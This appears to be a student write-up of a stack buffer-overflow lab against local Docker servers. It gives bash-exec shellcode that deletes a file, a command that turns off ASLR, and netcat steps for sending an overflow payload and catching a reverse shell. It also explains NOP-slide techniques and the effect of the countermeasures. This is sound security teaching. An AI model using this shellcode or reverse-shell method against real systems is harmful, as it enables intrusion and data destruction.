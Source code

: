 # Task 1: Get Familiar with the Shellcode

Move into the directory "shellcode", create first a file called "remove.txt", and put this content in the shellcode_32.py program for the shellcode variable:

```python
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/rm remove.txt                                        *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
Then, run:

```console
$ ./shellcode_32.py
$ make
$ ./a32.out
```

And you will see that the file will be removed.

# Task 2: Level-1 Attack

Make always sure that you run the following command to disable the address randomization countermeasure enable by default in every OS:

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Then, after building and starting all the Docker containers (as explained in the Readme.pdf file), send from the attacker machine a request to the server 10.9.0.5 at the port 9090 using netcat:

```console
$ echo hello | nc 10.9.0.5 9090
```

Substitute the values of EBP and BUF variables inside the file exploit.py in the attacker-code folder using the values returned by the target container, execute that file, open a new shell and start to listen at the port 9090 using netcat in order to reverse the shell and communicate with the server 10.9.0.5 (if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port):

```console
$ nc -nv -l 9090
```

Finally, use netcat to send to the server the created badfile that will overflow the stack of the function bof used by the server, injecting a new return address that will point to the code that reverse the shell:

```console
$ cat badfile | nc 10.9.0.5 9090
```

# Task 3: Level-2 Attack

We know these facts:

- We can put the shellcode at the end of the overwritted data.

- Buffer as size between 100 and 300.

- The address of the buffer.

In order to change the execution flow of the stack program, we can overwrite all content in the positions inside Badfile between 100 and 300 with the possible shellcode address, while leave the NOP instruction in all the others positions. The new return address that points to the shellcode should be lower than the shellcode address, and bigger than the possible buffer size (maximum 300). In this way, even if the address is not exact, the NOP instructions slide the pointer until a code is found in a cell of memory, that is, our shellcode. Badfile construction is made by exploit-L2.py, the rest of the attack is conducted in the same way as in the previous task.

# Task 4: Level-3 Attack

Since the zeros posed at the end of every address stop the copy during the execution of strcpy function, everything after the return address will not be copy, so we have to change the position of the shellcode. Solution: put the shellcode just below the return address pointer and use as return address the one of the buffer. In this way, the shellcode will be for sure copied on the buffer and executed thanks to the return address and NOP slide instructions.

# Task 5: Level-4 Attack

Since now the buffer size is much smaller (80 bytes) than the shellcode length (165 bytes), we exploit the following facts:

* Function stacks frames are stored from the higher addresses to the lower addresses when invoked, so the main stack frame is the higher one.

* The main in the stack program invokes two nested functions: dummy_function which invokes bof function.

* When the stack program is executed, first store the input in a variable called str that is passed to dummy_function and then to bof function.

So, also inside the str function we have our badfile stored with our shellcode. Using as return address the address of the buffer + 1500 we can reach the str variable inside the main stack frame from the bof stack frame, and the NOPs slide the pointer towards the shellcode.

# Task 6: Experimenting with the Address Randomization (optional)

*In your report, please report your observation, and explain why ASLR makes the buffer-overflow attack more difficult*: sending multiple messages with Address Space Layout Randomization (ASLR) countermeasure turned on, we note the following:

* sending messages to 10.9.0.5 server, the ebp inside the bof function and the buffer address will change every time. However, the first two hexadecimal characters remain the same always with value "ff". The remaining 6 characters change, with 16<sup>6</sup> = 16777216 possible combinations.

* sending messages to 10.9.0.7 server, the rbp inside the bof function and the buffer address will change every time. However, the first eight hexadecimal characters remain the same always with value "00007fff". The remaining 8 characters change, with 16<sup>8</sup> = 4294967296 possible combinations.

# Tasks 7: Experimenting with Other Countermeasures (optional)

## Task 7.a: Turn on the StackGuard Protection

The program crashes, saying:

```console
...
*** stack smashing detected ***: terminated
Annullato (core dump creato)
```

## Task 7.b: Turn on the Non-executable Stack Protection

The program crashes, saying:

```console
...
Errore di segmentazione (core dump creato)
```

# Debug the stack program with gdb peda

Create a new Makefile for the server code in which we disable all the mitigations and enable the compilation with the debugging option -g (see Makefile inside server-code-debug folder), then run:

```console
$ make
```

After that, debug the stack-L4.out, stack-L3.out, stack-L2.out and stack-L1.out binary files with -q (option that allow to read from a binary file) and execute the following commands for each of the two executables:

```console
$ gdb -q stack-L?
$ b bof
$ pattern create 2000 input
$ r < input
$ p $ebp
$ p &buffer
```

Notice that the bof function inside the stack program use 3 local variables. For example 180 bytes are used to store the buffer (as in L2 attack), 4 + 4 bytes are used for the other two local variables, so the base pointer ebp address is situated after 188 bytes from the buffer's address, specifically at distance equal to 192.

